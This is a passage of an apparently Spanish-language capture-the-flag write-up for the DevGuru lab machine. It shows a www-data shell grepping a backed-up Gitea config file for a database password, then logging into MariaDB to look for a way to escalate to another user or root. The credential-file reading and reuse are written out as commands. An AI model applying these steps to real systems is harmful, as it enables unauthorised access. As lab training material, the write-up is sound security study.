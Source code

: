 ```bash
[cron.sync_external_users]
; Synchronize external user data when starting server (default false)
; Create new users, update existing user data and disable users that are not in external source anymore (default)
; or only create new users if UPDATE_EXISTING is set to false
; Don't pass the file on STDIN, pass the filename as argument instead.
; If there is a password of redis, use `addrs=127.0.0.1:6379 password=123 db=0`.
www-data@devguru:/var/www/html$
```

De los resultados obtenidos, vemos una credenciales de acceso a la base de datos:

```bash
www-data@devguru:/var/www/html$ grep -B 10 "UfFPTF8C8jjxVF2m" /var/backups/app.ini.bak
; set to 1024 to switch on
DSA     = -1

[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
```

Asi que vamos a guardarlas y tratar de acceder a la base de datos con las credenciales que obtuvimos:

```bash
www-data@devguru:/var/www/html$ mysql -u gitea -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 671
Server version: 10.1.47-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Vamos a echarle un ojo si encontramos algo interesante y poder migra al usuario **frank** o convertirnos en **root**.

```bash
riaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use gitea;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [gitea]> show tables;
+---------------------------+
| Tables_in_gitea           |
+---------------------------+
| access                    |
```